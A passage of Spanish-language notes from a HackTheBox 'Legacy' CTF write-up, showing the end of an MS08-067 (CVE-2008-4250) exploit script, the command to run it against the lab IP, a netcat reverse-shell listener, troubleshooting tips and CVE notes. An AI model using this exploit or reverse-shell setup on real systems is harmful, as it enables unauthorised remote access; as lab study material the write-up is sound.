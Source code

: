 ```python
                print('')
                sys.exit(-1)


current = SRVSVC_Exploit(target, os, port)
current.start()
```

Ahora solamente nos falta ejecutar el script con `python2.7 exploit.py 10.10.10.4 7` mientras estamos en escucha con [[rlwrap -cAr nc -lvnp 443]]
Si te llegan a aparecer algunos errores. Mas abajo muestro los que me aparecian a mi y como los solucione

![[Legacy11.png]]

Esto ya nos tendria que haber mandado la [[Reverse shell]] y podemos catear las flags

![[Legacy8.png]]
![[Legacy9.png]]





----------
## Errores que pueden aparecer
Cuando estaba probando que payload tirar, solamente podia ejecutarlo 1 sola vez y despues me aparecian cualquiera de estos dos errores, la unica solucion que encontre, era reiniciando la maquina de hackthebox.
Se reinicia desde este boton, que aparece donde dice la ip de la maquina ![[Legacy16.png]]

![[Legacy15.png]]


![[Legacy10.png]]
![[Legacy12.png]]





------
# Notas

*CVE-2008-4250*
Identificador estándar de vulnerabilidad (Common Vulnerabilities and Exposures), usado a nivel global.

Tambien se conoce como *MS08-067*
Identificador de Microsoft para el boletín de seguridad que publicó el **parche** de esta vulnerabilidad. "MS" por "Microsoft", "08" por el año, "067" es el número del boletín ese año.

--------
# Creditos
[Proyecto de github rayhan0x01 para explotacion del MS08-067](https://github.com/rayhan0x01/reverse-shell-able-exploit-pocs/blob/master/ms08-067.md)
Writeup Oficial HackTheBox